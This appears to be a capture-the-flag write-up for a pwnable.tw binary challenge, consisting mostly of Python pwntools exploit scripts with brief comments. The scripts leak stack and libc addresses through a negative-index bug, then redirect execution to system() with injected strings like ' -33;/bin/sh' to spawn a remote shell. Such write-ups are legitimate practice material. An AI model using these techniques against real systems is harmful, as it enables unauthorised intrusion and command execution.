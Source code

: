 ```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
#
# Copyright © 2019 hal

from pwn import *

context.log_level = "debug"
context.terminal = ['tmux', 'split', '-h']

pwn_file = ("./pwn")
elf = ELF(pwn_file)
libc = ELF("./bc.so.6")

if len(sys.argv) == 1:
    r = process(pwn_file)
    pid = r.pid
else:
    r = remote("chall.pwnable.tw", 10202)
    pid = 0

def debug():
    gdb.attach(r, "b *0x0804A65D")

# write plt['puts'] into name ptr
# use negative integer to hijack control flow
# first leak stack
r.sendafter("> ", '6')
r.sendafter("> ", '2')
r.sendafter("name: ", 'a'*0x5c + p32(elf.plt['puts']) + 'a'*4)
r.sendafter("> ", '-10')
r.recv(4)
stack = u32(r.recv(4)) - 0xb0
info("stack: " + hex(stack))

# second leak libc
r.sendlineafter("> ", "1")
r.sendafter("> ", "-10"+'a'*(0x80-3))
r.recv(0x80)
a = u32(r.recv(4)) - 0x9768 
info("libc: " + hex(a))
libc.address = a

# last hijack control flow to stack and call system("*;/bin/sh\x00")
# note: * can't be negative
sh = str((stack+0x14-0x8058154)/4).ljust(0xb, 'a')
sh += ";"
sh += "/bin/sh\x00"
sh += p32(libc.sym['system'])
r.sendafter("> ", sh)

r.interactive()
```
### Easier Solution
After seeing others' writeup, I found a easier way to get shell.

We know system("-10;/bin/sh\x00") will cause error because -10 is negative. But we can bypass it with just a space before the negative number, like system(" -10;/bin/sh\x00")

And strtol works ok with a space.

```python
# leak libc
r.sendafter("> ", '6')
r.sendafter("> ", '2')
r.sendafter("name: ", p32(elf.plt['puts']) + 'a')
r.sendafter("> ", "-33"+'a'*(0x80-3))
r.recv(0x80)
a = u32(r.recv(4)) - 0x9768 
info("libc: " + hex(a))
libc.address = a
r.sendlineafter("> ", '1')

# call system(" -33;/bin/sh\x00")
r.sendafter("> ", '6')
r.sendafter("> ", '2')
r.sendafter("name: ", p32(libc.sym['system']) + 'a')
r.sendafter("> ", ' -33;/bin/sh\x00')

r.interactive()
```